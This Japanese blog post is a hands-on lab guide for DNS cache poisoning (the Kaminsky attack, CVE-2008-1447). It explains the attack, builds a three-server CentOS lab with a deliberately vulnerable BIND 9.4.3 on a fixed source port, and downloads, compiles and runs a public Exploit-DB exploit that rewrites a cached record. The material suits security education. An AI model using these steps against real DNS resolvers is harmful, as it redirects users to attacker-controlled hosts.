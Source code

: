 ```yaml
---
layout: post
title:  "DNSキャッシュポイズニング"
date:   2018-08-21
permalink: /security/:title
categories: Security
tags: DNS PWN CVE-2008-1447 CVE-2008-4194
excerpt: DNSキャッシュポイズニングのハンズオンシナリオです
mathjax: false
---
```


* content
{:toc}
 
## 攻撃の概要

### キャッシュの仕組み
DNSキャッシュサーバ自身はゾーンファイルを保持しない。
問い合わせに応じて権威DNSサーバに問い合わせた結果をそのまま返す。
この時取得したレコードはキャッシュに保存される。
キャッシュが破棄される前に同じ問い合わせがあった場合は権威DNSサーバに問い合わせずに結果を返す。

![]({{site.baseurl}}/images/dns-cache-poizoning/dns002.png)

### 階層構造の仕組み
ある権威DNSサーバの管理下に無いドメインの問い合わせは別の権威DNSサーバにリダイレクトされる。
権威DNSサーバはadditionalレコードに別の権威DNSサーバのホスト名とIPアドレスを指定してリゾルバに返す。
リゾルバはこれを参照して別の権威DNSサーバに問い合わせる。
これを繰り返すことでDNSの階層構造が実現される。

![]({{site.baseurl}}/images/dns-cache-poizoning/dns003.png)

### 攻撃の仕組み

攻撃対象ドメインに存在しないホストの名前解決をリクエストしてから、権威DNSサーバの応答よりも早く偽の応答を送り付ける。
偽の応答のadditionalレコードには権威DNSサーバとして攻撃対象ホストと偽のIPアドレスを指定する。
脆弱性のあるDNSキャッシュサーバはadditionalレコードの情報をキャッシュするので、これ以降のwww.sample.localの名前解決には100.100.100.100が返される。

![]({{site.baseurl}}/images/dns-cache-poizoning/dns004.png)

攻撃の詳細はJPRSの[Kaminsky Attackの全て][Kaminsky Attackの全て]を参照

## サーバ構築

3台のCentOS7でPoC環境を構築する。

![]({{site.baseurl}}/images/dns-cache-poizoning/env.png)

個々のサーバを構築する前によく使うツールを全てのホストに入れておくこと。

```bash
# yum install -y vim wget gcc bind-utils
```

### 権威DNSサーバ
named.confの記述
```bash
# vim /etc/named.conf

options {
  directory "/var/named";
  pid-file  "/run/named/named.pid";
  listen-on port 53 { any; };
  allow-query       { any; };
};
zone "sample.local" IN {
  type master;
  file "sample.local.zone";
};
```

zoneファイルの記述
```bash
# vim /var/named/sample.local.zone

@     IN    SOA    sample.local. root.sample.local. (
                   2018062901
                   60
                   60
                   60
                   60
                   )
;
      IN    NS     ns.sample.local.
;
      IN    MX     0 mail.sample.local
;
ns    IN    A      172.16.0.3
www   IN    A      172.16.0.100
mail  IN    A      172.16.0.100
```

攻撃を成功させやすくするためにNICに200msの遅延を設定
```bash
# tc qdisc add dev enp0s8 root netem delay 200ms
```

サービス起動
```bash
# systemctl start named
```

### DNSキャッシュサーバ
デフォルトのnamedを削除して脆弱性のあるバージョン9.4.3をソースからインストールする
```bash
# yum -y remove bind
# wget https://ftp.isc.org/isc/bind9/9.4.3/bind-9.4.3.tar.gz
# tar zxvf bind-9.4.3.tar.gz
# cd bind-9.4.3
# ./configure
# make
# make install
```
起動スクリプトの作成
```bash
# vim /usr/lib/systemd/system/named.service

[Unit]
Description=Berkeley Internet Name Domain (DNS)

[Service]
Type=forking
PIDFile=/run/named/named.pid

ExecStartPre=/bin/bash -c 'if [ ! "$DISABLE_ZONE_CHECKING" == "yes" ]; then /usr/local/sbin/named-checkconf -z /etc/named.conf; else echo "Checking of zone files is disabled"; fi'

ExecStart=/usr/local/sbin/named -u named $OPTIONS

ExecReload=/bin/sh -c '/usr/local/sbin/rndc reload > /dev/null 2>&1 || /bin/kill -HUP $MAINPID'

ExecStop=/bin/sh -c '/usr/local/sbin/rndc stop > /dev/null 2>&1 || /bin/kill -TERM $MAINPID'

PrivateTmp=true

[Install]
WantedBy=multi-user.target
```
named.confの作成

権威DNSサーバにソースポート10000で問い合わせるようにする
```bash
# vim /etc/named.conf

options {
  directory "/var/named";
  pid-file "/run/named/named.pid";
  listen-on port 53 { any; };
  allow-query { any; };
  forwarders { 172.16.0.3; };
  query-source address * port 10000;
  recursion yes;
};
```

pidファイルの所有権を変更する
```bash
# useradd named
# chown named:named /run/named
```

サービス起動
```bash
# systemctl daemon-reload
# systemctl start named
```
### 攻撃サーバ
CVE-2008-1447/CVE-2008-4194のエクスプロイトコードをコンパイルする
```bash
# wget https://www.exploit-db.com/download/6130.c
# yum install -y libdnet-devel
# ln -s /usr/include/dnet.h /usr/include/dumbnet.h
# gcc -o kaminsky-attack 6130.c `dnet-config --libs` -lm
```

## 攻撃
sample.localのDNSキャッシュサーバを攻撃してwwwのキャッシュを1.2.3.4に書き換える
```bash
# ./kaminsky-attack 172.16.0.1 172.16.0.2 172.16.0.3 10000 www sample.local. 1.2.3.4 8192 16
```
キャッシュが1.2.3.4に書き換えられた事を確認する
```bash
# dig @172.16.0.2 www.sample.local
```

裏でどんなパケットが飛んでいて、サーバのログには何が残っているのか確認しておくと良い。

## 参考情報
- [JPRS](https://jprs.jp/glossary/index.php?ID=0228)
- [Kaminsky Attackの全て][Kaminsky Attackの全て]
- [Exploit-DB](https://www.exploit-db.com/exploits/6130/)

[Kaminsky Attackの全て]: https://www.nic.ad.jp/ja/materials/iw/2008/proceedings/H3/IW2008-H3-07.pdf
